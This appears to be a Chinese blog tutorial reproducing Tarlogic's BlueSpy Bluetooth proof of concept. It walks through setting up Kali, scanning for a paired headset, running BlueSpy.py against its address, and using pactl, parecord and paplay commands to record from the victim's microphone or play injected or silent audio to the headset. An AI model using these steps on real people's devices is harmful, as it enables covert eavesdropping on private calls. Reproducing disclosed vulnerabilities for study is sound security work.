







2个月前，网络安全和情报公司Tarlogic在西班牙安全大会RootedCon 2024上提出了一项利用蓝牙漏洞的BlueSpy技术，并在之后发布了一个名为BlueSpy的概念验证工具。

这个蓝牙安全漏洞能够允许攻击者在蓝牙扬声器（比如耳机）已经与另一个设备配对并连接的情况下，劫持或监听蓝牙扬声器的输出内容，这也意味着，如果攻击目标是蓝牙耳机，那么可以通过这个漏洞进行目标用户蓝牙耳机通话的劫持，即偷听目标对象的通话内容。

同时Tarlogic也发布了BlueSpy 的PoC项目https://github.com/TarlogicSecurity/BlueSpy ，该项目可以验证此漏洞的概念。

## 环境准备

Python 3.11.8

PoC 使用以下工具：

* bluetoothctl

* btmgmt

* pactl

* parecord

* paplay

测试设备使用Kali虚拟机+蓝牙适配器或者原生Kali系统均可复现。其中，使用虚拟机时需要注意关闭USB控制器的与虚拟机共享蓝牙设备，这个蓝牙设备虽然会显示在蓝牙适配器列表，但是并不能使用，直接使用连接到虚拟机的外置蓝牙适配器即可。



## 测试准备

在BlueSpy脚本执行时非常容易出现错误，比如：



这时可以使用sudo btmgmt pair -c 3 -t 0命令直接运行btmgmt进行测试，并根据给出的提示解决报错。


确保btmgmt可以正常运行之后，再通过hciconfig命令来检查蓝牙适配器的信息。

hciconfig命令可以查看蓝牙适配器信息，和ifconfig命令可以查看网络适配器一样，遇到适配器DOWN的状态，可以使用hciconfig hci0 up来启动。



另外，sudo systemctl start bluetooth命令用于启动蓝牙服务。


sudo rfkill list命令可以用来检查蓝牙设备是否禁用。



如果蓝牙已被禁用，可以使用以下命令解除禁用：sudo rfkill unblock bluetooth


## 测试场景

确保btmgmt可以正常运行后，通过bluetoothctl工具扫描周边的蓝牙设备，在工具启动后执行scan on命令来开启扫描，获取蓝牙的地址，这里以网易的云音乐蓝牙耳机为例。



倘若此时周边有其他人已经连接该蓝牙耳机听音乐（这里以耳机连接Windows系统为例）。


## 测试执行

回到Kali系统开始执行BlueSpy程序，示例如下：

``` Python
$ python BlueSpy.py -a 蓝牙地址（上文示例为F5:0E:FD:00:01:B8）
```



上图可以看到Kali系统已经连接到正在播放的云音乐蓝牙耳机，并且开启了麦克风开始录音。


这时在项目目录下会有一个recording.wav的文件生成，这个文件正是录音的文件，随着录音时间的增加，该文件的大小也会增加。



使用Ctrl+C停止录音后，可以选择是否向连接的蓝牙设备播放媒体文件。选择Y的话会播放刚刚录音的文件，不选择的话，设备会恢复之前的状态继续播放音乐。

这里也可以用单独的命令进行相同操作：

``` Bash
pactl set-card-profile bluez_card.04_FE_A1_40_EB_31 headset-head-unit-msbc 
parecord -d bluez_input.04_FE_A1_40_EB_31.0 recording.wav 
paplay -d bluez_output.04_FE_A1_40_EB_31.1 recording.wav
```

使用上述命令可以单独进行录音或者发送指定的音频到目标蓝牙设备播放音乐，假设播放的音乐是空白，则会产生蓝牙耳机或音箱无声的假象。